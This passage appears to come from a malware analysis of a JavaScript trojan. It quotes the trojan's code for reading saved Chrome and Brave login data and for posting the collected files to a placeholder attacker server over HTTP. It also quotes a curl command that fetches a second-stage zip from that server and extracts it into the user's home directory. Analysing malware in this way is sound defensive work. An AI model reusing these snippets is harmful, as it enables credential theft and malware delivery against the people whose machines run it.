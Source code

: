 ### Collecting Login Data

The trojan collects login data (which may contain saved passwords) from browsers like Chrome and Brave:

```javascript
// Collecting Chrome login data
const chromeLoginDataPath = path.join(homeDir, "Library", "Application Support", "Google", "Chrome");
// cycle by profiles 
const profileName = profileIndex === 0 ? "Default" : "Profile " + profileIndex;
const loginDataPath = path.join(..., "Login Data");
// read files in cycle
```

A similar approach is used for Brave Browser.

### Sending Data to the Hacker

The trojan sends the collected data to a remote server:

```javascript
const formData = {
  hid: `123_${hostname}`,
  uts: timestamp,
  multi_file: collectedFiles,
};

const requestOptions = {
  url: "http://hacker_ip_goes_here:port/uploads",
  formData: formData,
};

request.post(requestOptions, (error, response, body) => {
...
});
```

Interestingly, the trojan transmits data in plain text over HTTP, which makes it susceptible to detection through network traffic monitoring. A more sophisticated attack might have encrypted the data before transmission.


### Downloading Additional Malicious Payloads

The trojan attempts to download additional malware using curl:

```javascript
const zipPath = path.join(tempDir, "p.zi");
const zipDestination = path.join(tempDir, "p2.zip");

exec(`curl -Lo "${zipPath}" "http://hacker_ip_goes_here:port/pdown"`, (error, stdout, stderr) => {
  if (!error) {
    fs.rename(zipPath, zipDestination, err => {
      if (!err) {
        // Extract and execute the zip file
        exec(`tar -xf "${zipDestination}" -C "${homeDir}"`, () => {
          // Extraction complete
        });
      }
    });
  }
});
```
